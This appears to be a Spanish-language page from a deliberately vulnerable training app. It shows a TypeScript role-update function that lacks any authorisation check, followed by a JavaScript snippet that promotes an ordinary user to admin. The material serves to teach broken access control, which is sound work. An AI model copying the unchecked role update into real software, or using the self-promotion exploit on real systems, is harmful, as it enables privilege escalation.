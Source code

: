 ### 🔍 **Código Vulnerable**

```javascript
// services/api.ts
export const updateUserRole = async (id: number, role: string): Promise<void> => {
  await simulateNetworkDelay();
  
  const token = localStorage.getItem('token');
  if (!token) {
    throw createHttpError(401, 'Token requerido');
  }

  const decoded = decodeSimpleJWT(token);
  if (!decoded) {
    throw createHttpError(403, 'Token inválido');
  }

  const userIndex = usersDatabase.findIndex(u => u.id === id);
  
  if (userIndex === -1) {
    throw createHttpError(404, 'Usuario no encontrado');
  }

  // 🚨 NO HAY VALIDACIÓN: Cualquier usuario puede cambiar roles
  const oldRole = usersDatabase[userIndex].role;
  usersDatabase[userIndex].role = role;
  
  console.log(`🚨 VULNERABILITY EXPLOITED: User ${decoded.username} changed user ${id} role from ${oldRole} to ${role}`);
  
  // Si el usuario cambió su propio rol, actualizar el token en localStorage
  if (id === decoded.id) {
    const updatedUser = { ...usersDatabase[userIndex] };
    delete (updatedUser as any).password;
    const newToken = createSimpleJWT(updatedUser);
    localStorage.setItem('token', newToken);
    localStorage.setItem('user', JSON.stringify(updatedUser));
  }
};
```

### 💥 **Formas de Explotación**

#### **Método 1: Auto-promoción a Admin**
```javascript
// Ejecutar como usuario normal para convertirse en admin
const promoteToAdmin = async () => {
  const currentUser = api.decodeCurrentToken();
  console.log(`Intentando promover a admin desde: ${currentUser?.username} (ID: ${currentUser?.id})`);
  
  try {
    await api.updateUserRole(currentUser.id, 'admin');
    console.log("🚨 ¡AUTO-PROMOCIÓN EXITOSA!");
    console.log("✅ Recarga la página para usar privilegios de admin");
    
    // Verificar el cambio
    const newToken = api.decodeCurrentToken();
    console.log("🔄 Nuevo rol:", newToken?.role);
    
  } catch (error) {
    console.log("❌ Error en auto-promoción:", error.message);
  }
};
```